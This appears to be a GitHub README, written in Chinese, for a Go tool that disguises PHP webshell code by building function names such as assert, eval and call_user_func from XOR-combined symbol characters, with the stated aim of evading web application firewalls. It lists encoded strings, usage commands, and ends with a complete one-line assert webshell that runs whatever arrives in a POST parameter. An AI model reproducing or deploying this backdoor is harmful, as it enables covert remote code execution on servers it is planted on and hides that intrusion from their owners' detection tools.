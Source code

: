# webShell_byPass_PHP

php的webshell中一般会使用一些特殊函数，例如assert()，call_user_func()等，但是一些waf也会重点关注和监控这些函数在网站目录下出现位置。所以参考一些技术文章，主要通过php的特性，将敏感函数的字符串替换从而达到降低报警等级的目的。

这个golang脚本主要是通过字母可以经过符号和数字异或获取

例如在php的字符a可以表示为**"("]" ^ "<")"**，一些常见的字符串替换如下：

|       @assert       | "@".("]" ^ "<").("]" ^ ".").("]" ^ ".").("]" ^ "8").("]" ^ "/").("]" ^ ")") |
| :-----------------: | :----------------------------------------------------------: |
|      **@eval**      |   **"@".("]" ^ "8").("]" ^ "+").("]" ^ "<").("]" ^ "1")**    |
| **create_function** | **("]" ^ ">").("]" ^ "/").("]" ^ "8").("]" ^ "<").("]" ^ ")").("]" ^ "8")."_".("]" ^ ";").("]" ^ "(").("]" ^ "3").("]" ^ ">").("]" ^ ")").("]" ^ "4").("]" ^ "2").("]" ^ "3")** |
| **@call_user_func** | **"@".("]" ^ ">").("]" ^ "<").("]" ^ "1").("]" ^ "1")."_".("]" ^ "(").("]" ^ ".").("]" ^ "8").("]" ^ "/")."_".("]" ^ ";").("]" ^ "(").("]" ^ "3").("]" ^ ">")** |
|     **$_POST**      |   **"$_".("\~" ^ ".").("\~" ^ "1").("\~" ^ "-").("\~" ^ "*")**   |
|      **$_GET**      |       **"$_".("\~" ^ "9").("\~" ^ ";").("\~" ^ "*")**        |

如果想要替换自己的字符串可以运行：

```
go run string2Symbols.go -s "your string split by space"
```

<img src="pic/Snipaste_2021-02-05_01-04-50.png" width="80%" height="80%" />

查看默认一些函数：

```
go run string2Symbols.go
```

<img src="pic/Snipaste_2021-02-05_01-08-22.png" width="80%" height="80%" />

### 生成预览（assert一句话）

```php
<?php
$a=("]" ^ "<").("]" ^ ".").("]" ^ ".").("]" ^ "8").("]" ^ "/").("]" ^ ")");
$b="_".("~" ^ ".").("~" ^ "1").("~" ^ "-").("~" ^ "*");
$c=$$b;
$a($c['key']);
?>
```
